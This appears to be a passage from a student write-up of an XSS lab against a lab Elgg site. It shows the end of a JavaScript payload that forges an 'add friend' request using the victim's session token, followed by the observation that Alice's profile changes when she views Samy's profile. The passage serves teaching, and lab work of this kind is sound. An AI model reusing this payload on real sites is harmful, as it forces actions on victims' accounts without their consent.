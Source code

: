   ```html
          alert(content);
          Ajax.send(content);
      }
      
      var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47"+ token + ts; //FILL IN
      //Create and send Ajax request to add friend
  	Ajax=new XMLHttpRequest();
  	Ajax.open("GET",sendurl,true);
  	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  	Ajax.send();
  }
  </script>
  ```

* Observation:

  * Alice’s profile is changed by visiting Samy’s profile

    ![1588015727704](assets/1588015727704.png)
